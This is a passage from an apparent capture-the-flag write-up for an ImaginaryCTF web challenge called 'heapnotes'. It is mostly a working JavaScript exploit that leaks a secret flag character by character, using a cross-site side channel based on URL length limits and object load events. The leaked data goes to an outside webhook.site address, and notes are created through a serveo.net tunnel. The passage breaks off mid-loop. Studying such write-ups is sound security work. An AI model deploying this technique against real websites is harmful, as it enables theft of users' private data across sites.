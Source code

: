 ```html
        
    exploit();
    
</script>
```

Final exploit:

```html
<body></body>

<script>
    // const target = "https://localhost:13337/";
    const target = "https://heapnotes.chal.imaginaryctf.org";
    const charset = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_@:}"
    let FLAG = "ictf{";
    const CHROME_URI_MAX_LENGTH = 65543-21;
    const the_URL = `/render/`
    const CSRF_ENDPOINT = `${target}/note/`;
    let BASE_LENGTH = 140;
    // let BASE_LENGTH = 120;
    let load_ok = false;

    function get_key_num() {
        return (CHROME_URI_MAX_LENGTH-the_URL.length-BASE_LENGTH)/2
    }

    async function createNote(c) {
        let content = FLAG+c;
        let num = get_key_num();
        let noteid = await fetch(`https://2ebf9157ccf7c280567edb99fd2be7db.serveo.net/?content=${content}&number=${num}`);
        return await noteid.text();
    }

    async function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }


    async function exploit() {
        const ifrm = [];
        let i = 0;
        while (FLAG.substr(-1) != "}") {
            for (c of charset) {
                let noteid = await createNote(c);
                // console.log("noteid: " + noteid);
                const attack = CSRF_ENDPOINT + noteid;
                
                ifrm.push(document.createElement("object"));
                ifrm[i].data = attack;
                ifrm[i].setAttribute("data-c", c)
                ifrm[i].onload=(e) => {
                    FLAG = FLAG + e.target.getAttribute("data-c");
                    console.log(FLAG);
                    fetch("https://webhook.site/a4ac2867-f495-4664-8d5a-95159b933fec/?leak="+FLAG, {mode:"no-cors"});
                };

                // console.log("test char => " + c);
                document.body.appendChild(ifrm[i]);
                i += 1;

            }
```